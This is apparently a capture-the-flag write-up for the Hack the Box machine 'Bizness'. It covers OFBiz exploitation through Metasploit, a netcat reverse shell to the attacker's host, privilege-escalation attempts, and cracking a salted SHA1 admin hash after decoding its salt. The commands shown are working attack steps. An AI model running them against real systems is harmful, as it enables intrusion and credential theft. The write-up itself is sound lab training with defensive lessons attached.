# Hack the Box - Bizness

## Step 1 - Accessing the website
As it's common with Hack the Box machines, the first thing to do is to add the machine's IP to `/etc/hosts`. This one is no different.  


However, what is something I haven't encountered with HtB machines is that they have a self-signed certificate:  
  
For now, lets keep this in mind and accept the risk.

On a first glance, the website looks pretty simple single-page application for some business.  


At the bottom of the page there's a contact form. Maybe this could be used gain foothold into the target machine?  


### Enumeration
I deployed nmap with:
```sh
$ nmap -sV -p- bizness.htb

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp    open  http       nginx 1.18.0
443/tcp   open  ssl/http   nginx 1.18.0
39831/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Running ffuf using wfuzz's megabeast.txt resulted in a whole bunch of HTTP 302s. Seems like the site does this to protect against discovery attempts? Not sure.  


Not to worry, using the `-fc` parameter the HTTP 302s can be filtered out:
```sh
$ ffuf -u https://bizness.htb/FUZZ -w [<path to megabeast.txt>] -e .php,.html,.js,.txt -fc 302

control                 [Status: 200, Size: 34632, Words: 10468, Lines: 492]
index.html              [Status: 200, Size: 27200, Words: 9218, Lines: 523]
```
and we found two endpoints! The endpoint `/index.html` just points to the landing page. The `/control` endpoint forwards us to a Apache OFBiz error page  


I haven't heard of Apache OFBiz before, so it's time for some research. A quick online search showed that Apache OFBiz is an open source enterprise resource planning system.

I quickly checked what cookies the website had stored, and I found a JSESSIONID and OFBiz.Visitor  


### Initial foothold
A quick online search ("Apache OFBiz vulnerability") shows a few CVEs. Not being sure which version I am dealing with, I'm taking my chances and trying to exploit some of them.

I started by looking what exploits were available on metasploit
```sh
$ msfconsole
$ msf6 > search ofbiz
0  exploit/linux/http/apache_ofbiz_deserialization_soap  2021-03-22       excellent  Yes    Apache OFBiz SOAP Java Deserialization
1  exploit/linux/http/apache_ofbiz_deserialization       2020-07-13       excellent  Yes    Apache OFBiz XML-RPC Java Deserialization

$ msf6 > use 0
$ msf6 > set RHOSTS bizness.htb
$ msf6 > set RPORT 443
$ msf6 > set LHOST tun0
$ msf6 > run

# No luck, lets try the other one
$ msf6 > use exploit/linux/http/apache_ofbiz_deserialization
# Set parameters
meterpreter >
```

Great! Initial foothold achieved!

I'm not too comforatble with meterpreter yet, so I opened another reverse shell:
```sh
# Local machine
$ nc -nvlp 4455

# Target machine
meterpreter > shell
$ busybox nc 10.10.14.10 4455 -e sh
```

Then I upgraded my shell via:
```sh
$ python -c "import pty; pty.spawn('/bin/bash')"
# Ctrl + Z to put the shell in background
$ stty raw -echo ; fg
```

## Step 2 - User flag
The shell lands in `/opt/ofbiz/`. Simply navigating to `/home` reveals the user.txt.

## Step 3 - Enumerating the machine
```sh
$ sudo -l
[sudo] password for ofbiz: # No idea...

$ cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"

$ env
# Nothing interesting

$ echo $PATH
/usr/lib/jvm/java-11-openjdk-amd64/bin:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/system/bin:/system/sbin:/system/xbin:/usr/lib/jvm/java-11-openjdk-amd64/bin

$ uname -a
Linux bizness 5.10.0-26-amd64 #1 SMP Debian 5.10.197-1 (2023-09-29) x86_64 GNU/Linux
```

Nothing too obvious right off the bat. Time to check with linpeas.

```sh
# Local machine
$ cd [<path to linpeas.sh>]
$ python3 -m http.server

# Target machine
$ cd /tmp
$ wget http://[<local machine's IP>]:8000/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

Linpeas catches something interesting:  
  
It's a writeable executable, this could lead to privilege escalation!

## Step 4 - Privilege escalation
Lets check the service:
```sh
$ ls -asl /etc/systemd/system/ofbiz.service 
4 -rw-r--r-- 1 root root 559 Dec 18 02:52 /etc/systemd/system/ofbiz.service

$ cat /etc/systemd/system/multi-user.target.wants/ofbi>
# OFBiz service

[Unit]
Description=OFBiz Service

[Service]
Type=simple

# environment variables
Environment="JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64"
Environment="PATH=/usr/lib/jvm/java-11-openjdk-amd64/bin:/bin:/sbin:/usr/bin:/usr/sbin"

User=ofbiz
WorkingDirectory=/opt/ofbiz

# start and stop executables
# note that systemd requires specifying full/absolute path to executables
ExecStart=/opt/ofbiz/gradlew ofbiz
ExecStop=/opt/ofbiz/gradlew "ofbiz --shutdown"

Restart=Always
RestartSec=10s
RemainAfterExit=no

[Install]
WantedBy=multi-user.target

$ ls -asl /opt/ofbiz/gradlew
8 -rwxr-xr-x 1 ofbiz ofbiz-operator 6134 Mar 15 12:08 /opt/ofbiz/gradlew
```

So the service is owned by root and it calls `/opt/ofbiz/gradlew` which I can modify. If I could spawn a shell from the gradlew file, could I get access to root?

Lets test this:

```sh
$ cd /opt/ofbiz
$ cp gradlew /tmp # Copy the original file, just in case
$ vim gradlew
```
I added another reverse shell to see if I could get a root shell when the gradlew is executed:  


```sh
# Local machine
$ nc -nvlp 4456

# Target machine
$ systemctl restart ofbiz
Failed to start ofbiz.service: Access denied
See system logs and 'systemctl status ofbiz.service' for details.
```

Ah, invalid permissions. What if I just reboot the machine? That would restart the service:
```sh
$ reboot
Failed to set wall message, ignoring: Access denied
Failed to reboot system via logind: Access denied
Failed to open initctl fifo: Permission denied
Failed to talk to init daemon.
```
No luck here either.

In the service file:
```sh
Restart=Always
RestartSec=10s
RemainAfterExit=no
```
Hmm, could I make the service crash somehow? This should re-start the service, right?

After trying for a while, I couldn't crash the service reliably so I took a step back. Perhaps this was a red herring?

## Step 5 - More enumeration
After more research, I found out OFBiz uses something called "Derby" as database. Perhaps I could find something in the database?

I navigated to `/opt/ofbiz/runtime/data/derby/ofbiz/seg0` and found 5404 .dat files:  


I could `$ cat` through all of them, but that's too tedious. Using `$ grep -r` makes going through the data much more bearable.  

  

After a while of enumerating different keywords (password, pw, username etc.) I tested `$ grep -r admin` and went through the results. The file `c54d0.dat` had something interesting in it:  


It's a password hash for the user admin! *Or so I thought...*

## Step 6 - Cracking admin's password

I put the hash into a hash identifier, and it turns out to be AuthMe sha256  
  

Then I tried cracking it using hashcat and, yeah, that didn't work.
```sh
$ hashcat -m 20711 -a 0 hash.txt [<Path to rockyou.txt>]

Hashfile 'hash.txt' on line 1 ($SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I): Token length exception
No hashes loaded.
```

Looking at it again, the hash does seem a bit weird and doesn't match AutMe sha256 format. After researching a bit, it seems to be SHA1 hash (indicated by \$SHA\$) and $d is the salt value. So this is the salt, not the password.

I took a step back and went back to enumerating. I found an interesting file in `/opt/ofbiz/framework/resources/templates` called `AdminUserLoginData.xml`, which contained "currentPassword". Could this be the root password?  



I copied the hash to my local computer in a file called `hash.txt` and passed it to hashcat in mode 100 (SHA1) to compare against rockyou.txt:  


Welp, that didn't work. As I found out earlier, the password most likely contains a salt. If I could figure out what the salt was, cracking the password would be much more feasible.

I went back to enumerating and discovered `/opt/ofbiz/docker/docker-entrypoint.sh` which had the following:  

Which contained the steps taken to construct the salt!

1. Read 16 bytes from /dev/urandom
2. Convert the ASCII hex representation to raw bytes
3. Base64 encode, note `basenc --base64url` which encodes using `-` instead of `+` and `/` instead of `_`

So to get the original value, I need to repeat the steps in reverse:
1. Replace `-` with `+` and `_` with `/` (reverse `basenc --base64url`)
2. Base64 decode
3. Convert from hex

So with the actual data:
1. `$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I` -> `uP0_QaVBpDWFeo8-dRzDqRwXQ2I` -> `uP0/QaVBpDWFeo8+dRzDqRwXQ2I`
2. Base64 decode to get raw bytes: `uP0/QaVBpDWFeo8+dRzDqRwXQ2I` -> `¸ý?A¥A¤5…z>uéCb`
3. Convert to hex: `¸ý?A¥A¤5…z>uéCb` -> `b8fd3f41a541a435857a8f3e751cc3a91c174362`

And if everything went as expected, this should be the correct salt!

Now I can provide the salt to hashcat which will then use it to hash the passwords from the provided wordlist (rockyou.txt). This can be done in mode 120:  


So in this case, the hash in format `b8fd3f41a541a435857a8f3e751cc3a91c174362:d`. This way hashcat knows how to separate the salt and the password from the password list.

Now running hashcat:  
  
...and we have the password (which is not shown to avoid ruining the box for others).

With the password, it's simple to get the root flag:
```sh
$ su root
# Enter the password
$ cd
$ cat root.txt
```


And that's the box complete! I really enjoyed the process of reverse engineering the hash function, good stuff!

## Step 7 - Lessons learned
The steps to get root access to the device were:

### 1. Identify vulnerable technology (Apache OFBiz)
The website (probably accidentally) exposed Apache OFBiz, which is not desired. A quick online search revealed a major vulnerability in it. This is related to [CAPEC-169 Footprinting](https://capec.mitre.org/data/definitions/169.html).

To address this, it should be made sure that services intended for internal use shouldn't accessible from public internet.

### 2. Exploit the vulnerability to get initial foothold
A quick online search provided information about a critical CVE in the used technology, which made it possible to gain shell into the target. This is related to [CAPEC-248 Command Injection](https://capec.mitre.org/data/definitions/248.html).

To address this issue, the used packages should be kept up to date.

### 3. Password discovery (privilege escalation to root)
The user we landed on was able to enumerate through the machine without too many restrictions. This ultimately resulted in discovering the root account's password hash, and the process to build password salt. I'm not too sure if the account that the shell landed on actually required access to the files, but the permission should be reviewed. This vulnerability relates to [CAPEC-180 Exploiting Incorrectly Configured Access Control Security Levels](https://capec.mitre.org/data/definitions/180.html).
